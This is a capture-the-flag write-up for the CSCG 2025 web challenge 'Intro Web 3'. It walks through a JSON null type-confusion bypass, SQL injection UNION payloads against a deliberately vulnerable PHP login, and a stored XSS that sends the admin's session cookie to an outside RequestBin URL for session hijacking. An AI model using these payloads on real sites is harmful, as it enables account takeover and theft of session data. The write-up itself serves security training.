

# Intro Web 3
- Author: Ilja Ylikangas / ilpakka
- Event: [CSCG 2025](https://play.cscg.live/)

## Details:

- **Category:** Web
- **Description:** "Alright. We've looked at what happens on your browser and also what happens in the communication between your browser and our web server. But what actually happens on our web server? What even is a web server?"
- **Attachment:** -

### Overview
Once again we read through the main page and try to notice any hints that might be useful in revealing the flag parts. We are going to be intercepting traffic and checking the requests with **Burp Suite** until it is not used anymore.

## 1. JavaScript and SHA256

The first challenge is to find a way to get the flag from a `Random Hashing Game`.<br>
<br>
We are given the source code for the script that hashes the flag an unknown number of times:

```javascript
const crypto = require("crypto");
let flag = require("./flag");

function randomHashing(request, response) {

    // take the user's number and make sure they actually sent us a positive number
    const chosenNumber = request.body["chosenNumber"];
    if (chosenNumber === undefined || typeof chosenNumber === "string") {
        response.status(400).send("You must choose a number!");
        return;
    }
    if (typeof chosenNumber === "number" && chosenNumber < 50) {
        response.status(400).send("Hey, no cheating!");
        return;
    }

    // now pick our own random number and take whichever one is lower
    const randomNumber = Math.floor(Math.random() * 100 + 1);
    const iterations = Math.min(chosenNumber, randomNumber);

    // sha256 the flag that often
    let hashedFlag = flag;
    for (let i = 0; i < iterations; i++) {
        hashedFlag = crypto.createHash("sha256").update(hashedFlag).digest('hex');
    }

    response.send(`Here's the first part of your flag, sha256'd ${iterations} times: ${hashedFlag}`);
}

module.exports = randomHashing;
```
It's clear that we need to find a way to beat the game. I noticed that `POST` requests contain the number value in **JSON** so what if instead of entering a numeric value we just play around and proceed with another data type like `null`?<br>
<br>

<br>
Well it would seem that this skipped the entire hashing part and the response reveals the flag part in plain text.<br>
<br>
Great, let's continue!<br>
<br>

## 2. SQL Injections

We are introduced to a standard login form and tasked with gaining admin access.<br>
<br>
<br>
<br>
We are also given the code behind the login page and the credentials (user:`smartymcsmartface`, password:`smart123`) for a user that is not an admin.
<br>
```php
<html>
<head>
    <title>Intro to Web 3</title>
    <meta charset="UTF-8">
    <link rel="stylesheet" type="text/css" href="style.css" />
</head>
<body>
<h1>Login</h1>
<?php
if (!isset($_POST["username"]) || !isset($_POST["password"])) {
    echo "You need to pass a username and password!";
    die();
}

// connect to DB
$db = pg_connect("host=localhost dbname=part2db user=part2");

// check if there is a user with the supplied username and password
$result = pg_exec($db,
    "SELECT username,is_admin from users WHERE username='".$_POST["username"]."' AND password='".$_POST["password"]."';"
);
$row = pg_fetch_row($result);

// no rows => incorrect credentials
if ($row == false) {
    echo "Login failed!";
    die();
}

echo "Logged in as: ".$row[0]."\n<br />";

// check if user is an admin
if ($row[1] == "t") {
    readfile("secret-text-files/flag-part-2.txt");
} else {
    echo "Get the hell outta here, peasant!";
}
?>
</body>
</html>
```
I see. We should try injecting the SQL query in a way that matches the required condition.<br>
Let's use the information above to construct ourselves a working query. Let's make sure to use `UNION` as we are combining two SELECTs.<br>

```
' UNION SELECT username,is_admin from users WHERE is_admin=true --
' UNION SELECT password,is_admin from users WHERE is_admin=true --
```

<br>
<br>

It worked and now we have our second part of the flag.<br>
<br>

## 3. Cookies Exfil Inbound

Our last challenge is to open up a Guestbook and try to find a way to impersonate the admin by making them send us their `session-id` cookie.<br>
We are also given the PHP source for the website `guestbook.php`.<br>
<br>
<br>

There is an important part in the source code. We can't use the same trick as before so let's try and find another way.<br>
```php
    // connect to DB
    $db = pg_connect("host=localhost dbname=part3db user=part3");

    // use a prepared statement to avoid SQL injections
    pg_prepare($db, "entry_add_query",
    "INSERT INTO guestbook_entries (username, content) VALUES ($1, $2);");

    // add the entry
    $result = pg_execute($db, "entry_add_query", array($username, $content));

    if ($result) {
        echo '<span style="color: green">Entry added!</span>';
    } else {
        echo '<span style="color: red">Error while adding entry!</span>';
    }
```
<br>

There is a service called **RequestBin** which let's analyze webhooks and other HTTP requests.<br>
<br>
We create a new default RequestBin and copy the bin URL on top of the page.<br>
<br>
<br>
Let's use a JavaScript snippet in our trigger to redirect the browser:

```javascript
<script>window.location.replace("https://requestbin.kanbanbox.com/theonepieceisreal?" + document.cookie)</script>
```

After posting any username and the message above on the Guestbook, if successful on the admin trigger, we should get the session ID by refreshing our RequestBin overview.<br>
*Note: Keep in mind that refreshing RequstBin might show you multiple results based on the time you waited. Make sure to identify the admin querystring by comparing session ids.*

<br>

Would you look at that, we've successfully managed to get the admin session id!<br>
<br>
We we just need to send a `GET` request with the session id edited to match the one we stole.<br>
<br>
<br>
<br>

Now we have the full flag and are ready to submit it!

---
